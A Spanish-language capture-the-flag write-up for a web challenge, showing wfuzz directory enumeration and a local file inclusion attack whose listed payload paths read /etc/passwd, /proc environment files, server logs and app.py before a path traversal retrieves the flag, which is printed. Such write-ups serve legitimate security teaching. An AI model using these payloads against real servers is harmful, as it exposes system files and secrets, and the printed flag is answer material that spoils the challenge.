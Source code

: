 # Manuscritos antiguos

## Descripcion

En este sitio se esconde un archivo secreto llamado `flag.txt`. Solo un reconocimiento minucioso te llevará al premio

> Dominio dado: https://dspool9.ctf.n3xtl3v3l.site/

## Solucion

Al ingresar al sitio web podemos ver lo siguiente:

![[Pasted image 20250826201011.png]]

Una web vacia, sin enlaces, secciones, botones o codigo interesante, cuando nos topamos contra una web vacia lo comun es realizar una enumeracion para encontrar posibles archivos o directorios, usaremos **wfuzz** en este caso

```
wfuzz -c -u https://dspool9.ctf.n3xtl3v3l.site/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hh 207    
```

Este comando nos reporta lun directorio llamado `archive`, al cual si accedemos vemos lo siguiente, informacion extra referente a archivos, del cual podemos intuir un posible *LFI*

![[Pasted image 20250826201442.png]]

Si podemos consultar archivos desde la url, podriamos intentar buscar la flag o archivos internos del servidor, pero aunque podamos listar archivos comunes como el `/etc/passwd` no somos capaces de obtener la flag en ninguna parte, pero podemos intentar listar archivos en ejecucion

```
/archive?page=/proc/self/cmdline
/archive?page=/proc/self/cwd
/archive?page=/proc/self/environ
/archive?page=/proc/1/environ
/archive?page=/proc/self/status
/archive?page=/var/log/nginx/error.log
/archive?page=/var/log/nginx/access.log
/archive?page=/var/log/apache2/error.log
/archive?page=/var/log/auth.log
```

![[Pasted image 20250826201903.png]]

Al leer el primer archivo podemos ver que en el servidor hay un archivo `app.py` que se esta ejecutando, lo mas probable un archivo hecho con **flask** 

- `https://dspool9.ctf.n3xtl3v3l.site/archive?page=/app.py`

![[Pasted image 20250826202058.png]]

Logramos leer el contenido de ese archivo el cual nos revela un directorio llamado **secrets**, en donde por intuicion suponemos que esta la flag

- `https://dspool9.ctf.n3xtl3v3l.site/archive?page=/../.secret/flag.txt`

Al ejecutar intentar leer la flag dentro de ese directorio obtenemos lo siguiente:

```
Congratulations! You are an LFI master!
n3xt{Y0U_F0UND_TH3_S3CR3T_F1L3!!!!!!}
```

> La flag es: `n3xt{Y0U_F0UND_TH3_S3CR3T_F1L3!!!!!!}`
